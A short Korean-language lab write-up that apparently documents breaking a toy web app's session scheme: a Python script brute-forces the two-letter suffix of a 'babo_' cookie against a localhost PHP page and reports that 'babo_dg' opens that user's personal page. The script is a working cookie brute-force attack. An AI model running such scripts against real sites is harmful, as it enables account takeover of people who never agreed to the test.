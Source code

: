 req_cookie.py 의 request_checker 를 가져와서 합칩시다.

```python
'''
Title:cookie_buster.py 
Author:Jaeho Jeon 2024-01-25
'''
import requests

def request_checker(url,random_2char):
    user_value = f"babo_{random_2char}"
    cookies = {
        'user': user_value
    }
    response = requests.get(url, cookies=cookies,allow_redirects=False)
    if(response.status_code==200):
        print(f"Cracked!!! : {user_value}")
        return True
    else:
        print(f"failed : {user_value}")

def buster_2char(characters):      
    for c1 in characters:
        for c2 in characters:
                gen = ''.join([c1, c2])
                if(request_checker(url = 'http://localhost:8000/page-babo.php',random_2char=gen)):
                    return
                        
buster_2char('abcdefghijklmnopqrstuvwxyz')
```

babo 의 계정에서 잘 작동합니다.

즉, babo 의 개인페이지에 접속할 수 있는 쿠키는 babo_dg 임을 brute force 하여 알아냈습니다.

![Untitled](Untitled%20499.png)
